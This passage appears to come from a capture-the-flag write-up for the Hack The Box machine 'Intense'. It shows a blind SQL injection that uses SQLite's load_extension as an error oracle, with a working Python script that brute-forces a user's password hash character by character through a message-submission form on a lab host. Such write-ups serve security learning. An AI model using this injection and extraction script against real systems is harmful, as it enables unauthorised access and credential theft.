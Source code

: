 ![image7](/assets/images/htb-intense/intense7.png)

With this you can make a script to get users, but you can get the password too, for this you need another query, before I guessed that it was username but we have to source code of the webpage so I can download it and then go to `app/utils.py` and there's a `try_login(form)` that tells that it's needed:

![image8](/assets/images/htb-intense/intense8.png)

Now you can make a query like:

```sql
''||(select secret from users where username = 'guest' and substr(secret,<POSITION>),1) = '<CHARACTER BRUTEFORCE>' and load_extension('a'))||''
```

And the script would be like this:

```python
import requests
import sys

def get_pass(user):
    password = ''
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    charset = "abcdef0123456789"
    for i in range(64):
        for char in charset:
            sys.stdout.write(f"\rPassword: {password}{char}")
            sys.stdout.flush()

            response = requests.post("http://10.10.10.195/submitmessage",data=f"message='||(select secret from users where username = '{user}' and substr(secret, {i+1},1) = '{char}' and load_extension('a'))||'",headers=headers)
            if "not authorized" in response.text:
                password += char
                break

```